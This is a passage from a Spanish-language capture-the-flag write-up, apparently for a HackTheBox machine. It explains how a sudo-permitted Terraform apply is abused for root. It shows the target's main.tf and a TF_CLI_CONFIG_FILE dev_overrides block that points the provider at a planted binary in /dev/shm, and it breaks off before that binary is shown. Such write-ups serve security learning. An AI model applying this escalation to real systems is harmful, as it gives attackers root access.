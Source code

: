 La opción `-chdir=DIR` `cambia el directorio de trabajo` antes de ejecutar el subcomando `apply` que sirve para `crear o actualizar la infraestructura`.

El fichero `/opt/examples/main.tf` describe cómo funciona el `despliegue`:

```terraform
terraform {
  required_providers {
    examples = {
      source = "previous.htb/terraform/examples"
    }
  }
}

variable "source_path" {
  type = string
  default = "/root/examples/hello-world.ts"

  validation {
    condition = strcontains(var.source_path, "/root/examples/") && !strcontains(var.source_path, "..")
    error_message = "The source_path must contain '/root/examples/'."
  }
}

provider "examples" {}

resource "examples_example" "example" {
  source_path = var.source_path
}

output "destination_path" {
  value = examples_example.example.destination_path
}
```

Utilizando las `variables de entorno de Terraform`, intenté apuntar a otra ruta con `TF_VAR_source_path` pero está capao (validación en main.tf). Después probé con el fichero de configuración `TF_CLI_CONFIG_FILE` que permite `sobrescribir la ruta de un provider concreto mediante dev_overrides`, indicando a Terraform `donde` tiene que buscar el `binario local que implementa el provider`, ignorando la verificación de versiones y checksums, por lo que me monté uno en `/dev/shm/provider` con lo siguiente:

```terraform
provider_installation {
        dev_overrides {
                "previous.htb/terraform/examples" = "/dev/shm"
        }

        direct {}
}
```

`Development overrides` permite `sobrescribir` la `ruta local del provider`, esto funciona ya que la `version de Terraform` que corre es `superior a la v0.13` (Terraform v1.13.0).
Es decir, ahora va a tratar de `ejecutar el binario que implemente el provider 'examples' en /dev/shm` como un plugin de Terraform `con privilegios de root` (sudo -l), por lo que me creo uno:
